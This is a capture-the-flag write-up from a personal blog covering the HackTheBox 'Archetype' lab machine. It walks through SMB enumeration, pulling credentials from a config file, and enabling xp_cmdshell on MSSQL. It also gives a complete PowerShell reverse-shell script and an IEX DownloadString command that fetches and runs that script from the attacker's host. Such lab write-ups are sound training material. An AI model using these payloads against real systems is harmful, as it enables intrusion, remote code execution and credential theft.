 +++
title = "HackTheBox Write-up&mdash;Archetype"
date = 2021-03-22
+++

I am going to have a quick night of attempting the "Starting Point" machines in HackTheBox.  These machines I didn't see when I first started using HackTheBox, but they seem to be valuable in understanding the usual layout of these kinds of machines.  I think they are of a common author, too.  And I do believe this particular machine is made by the person who made HackTheBox.  So with all that in mind, here goes!

---

# The Short Version

1. Enumerate ports via `nmap -sC -sV 10.10.10.27`. Optionally add the archetype machine to your `/etc/hosts` file for a nicer way of referencing this machine.
2. Run `smbclient -N -L \\\\10.10.10.27\\` to list the directories in the samba storage. Notice `backups` is open access;
3. Run `smbclient -N \\\\10.10.10.27\\backups` to peek inside the backups directory. Notice the `prod.dtsConfig` file inside;
4. Get the `prod.dtsConfig` by running `get prod.dtsConfig` in the samba client;
5. In your own shell, now run `cat prod.dtsConfig | awk -F'User ID=' '{print $2}' | awk -F';' '{print $1}' | tr -d " \t\n\r"` to get the username, and `cat prod.dtsConfig | awk -F'Password=' '{print $2}' | awk -F';' '{print $1}' | tr -d " \t\n\r"` to get the password;
6. Ensure you have Impacket's tools: `git clone https://github.com/SecureAuthCorp/impacket`;
7. We can access the `mssql` server using Impacket's `mssqlclient` tool: `python3 impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth`. Notice here the use of the username from two steps ago. When prompted, enter the password obtained from two steps ago;
8.  Now that you are logged in as `sql_svc`, we can run the following series of SQL commands to access the command shell:
    ```sql
    sp_configure 'show advanced options', '1'
    RECONFIGURE
    sp_configure 'xp_cmdshell', '1'
    RECONFIGURE
    ```
9. We need to note down your `tun0` IP. On your computer, run: `ifconfig | grep -A 1 'tun0' | tail -1 | grep -o -P 'inet(.{0,15})' | grep -oE '((1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.){3}(1?[0-9][0-9]?|2[0-4][0-9]|25[0-5])'`;
10. We need to put the following into a `shell.ps1` file on your computer:
    ```powershell
    $client = New-Object System.Net.Sockets.TCPClient("10.10.14.34", 1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# "; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.close()
    ```
     Notice that we have your `tun0` IP, with some port number (here we have chosen `1234`) near the start of the file;
11. On your computer, we need to set up an http server for later; run `sudo python3 -m http.server 80`. Ensure you run this in the same directory as your reverse powershell script from the previous step;
12. Also on your computer, we will need a netcat listener; run `nc -nvlp 1234` (or exchange `1234` with the port you chose two steps ago. Note that in the verbatim version, I used this along with `rlwrap` to make this step nicer);
13. Back in the SQL window, now run `xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.34/shell.ps1\");`" in order to transfer the reverse powershell script to the SQL database;
14. Go back to you netcat listener window, and you will see that it has connected to the server! You can verify this by running `whoami`. You can now run more `\users\sql_svc\desktop\user.txt` to capture the user flag!;